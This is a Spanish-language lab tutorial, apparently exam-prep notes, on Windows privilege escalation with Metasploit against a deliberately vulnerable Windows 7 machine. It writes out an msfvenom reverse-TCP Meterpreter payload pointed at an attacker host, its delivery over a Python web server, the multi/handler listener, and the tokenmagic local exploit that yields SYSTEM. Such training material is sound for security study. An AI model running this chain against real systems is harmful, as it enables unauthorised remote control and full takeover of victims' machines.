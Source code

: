 
----
- TAG: #Escalada-De-Privilegios #Metasploit #Linux #Windows 
------
## Escalada de Privilegios en Windows utilizando Metasploit

En este apartado, exploraremos la escalada de privilegios en sistemas operativos **Windows** utilizando la herramienta **Metasploit** para automatizar parcialmente el proceso.

### Requisitos

1. **Kali Linux** como máquina atacante.
2. **Windows Vulnerable** como máquina víctima - [Descargar aquí](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing).

### Pasos

1. **Conseguir una sesión de Meterpreter**

   El primer paso es obtener una sesión de **Meterpreter** en la máquina **Windows 7**. Esto es crucial, ya que la escalada de privilegios requiere que la intrusión ya esté realizada.

   Crea un payload con `msfvenom` de la siguiente manera:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=4444 -f exe -o virus.exe 
```

   Aquí, `LHOST` debe ser la dirección IP de tu máquina atacante, y `LPORT` es el puerto por donde recibirás la conexión. El archivo `.exe` generado será el que otorgue acceso a la máquina.

   Es importante que la sesión de **Meterpreter** esté activa para poder escalar privilegios con Metasploit. Si al ejecutar el payload te encuentras con un error relacionado con la arquitectura de bits, verifica si la máquina Windows es de 32 o 64 bits. En caso de ser de 64 bits, usa:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=4444 -f exe -o virus.exe 
```

   **Nota:** Durante el examen, es probable que no necesites especificar los bits.

2. **Compartir el Payload mediante un servidor Python**

   Comparte el payload utilizando un servidor Python:

```bash
python3 -m http.server 80 
```

   Desde la máquina **Windows**, accede al navegador e ingresa la dirección IP de la máquina atacante (Kali Linux) para descargar el payload.

3. **Iniciar Metasploit y Configurar el Listener**

   En la máquina Kali Linux, abre **Metasploit**:

```bash
msfconsole
```

   Configura el **multi/handler** para escuchar la conexión entrante de **Meterpreter**:

```bash
use multi/handler
```

   Verifica las configuraciones necesarias:

```bash
show options
```

   Asigna la dirección IP de la máquina atacante:

```bash
set LHOST 1.2.3.4
```

   El puerto `4444` suele estar configurado por defecto, así que déjalo tal cual.

   Asigna el **Payload** creado previamente:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

   Si todo está bien, deberías obtener una sesión de **Meterpreter**.

4. **Obtener una Sesión de Shell**

   Dentro de **Meterpreter**, puedes obtener una sesión interactiva de shell escribiendo:
 
```bash
shell
```

   Esto te permitirá ejecutar comandos como `whoami`. Sin embargo, el objetivo es obtener privilegios de **NT Authority System**.

5. **Escalada de Privilegios**

   Para escalar privilegios, primero sal de la shell con `Ctrl + C` y regresa a la sesión de **Meterpreter**. Luego, envía la sesión al fondo:

```bash
background
```

   Realiza una búsqueda automatizada de exploits para escalar privilegios:

```bash
search local_exploit_suggester
```

   Esto debería mostrarte una lista de exploits disponibles. Utiliza el que te interesa:

```bash
use 0 
```

   Revisa las opciones necesarias:

```bash
show options
```

   Identifica la sesión activa previamente e indica el ID de la sesión:

```bash
sessions -l
```

   Si la sesión es la `1`, configúralo así:

```bash
set SESSION 1
```

   Ejecuta el exploit para localizar las vulnerabilidades y encontrar el exploit adecuado:

```bash
run
```

   Entre los exploits encontrados, solo los que aparecen en verde son útiles. En este caso, utiliza el siguiente exploit:

```bash
use exploit/windows/local/tokenmagic
```

   Configura el exploit con el ID de la sesión y la dirección IP de la máquina atacante:

```bash
set SESSION 1 
set LHOST 1.2.3.4
```

   Cambia el puerto `LPORT` para evitar conflictos:

```bash
 set LPORT 5555
```

   Ejecuta el exploit para obtener otra sesión de **Meterpreter**:

```bash
run 
```

   Esta vez, deberías tener privilegios de administrador. Confírmalo con:

```bash
shell
```

   Y luego:

```bash
whoami
```

   Ahora deberías estar logueado como `NT Authority System`.

### Conclusión

Obtener privilegios de `NT Authority System` es esencial, ya que este usuario tiene control total sobre el sistema local. Dominar esta técnica es crucial para el examen, ya que en al menos una máquina será necesario realizar una escalada de privilegios.

---

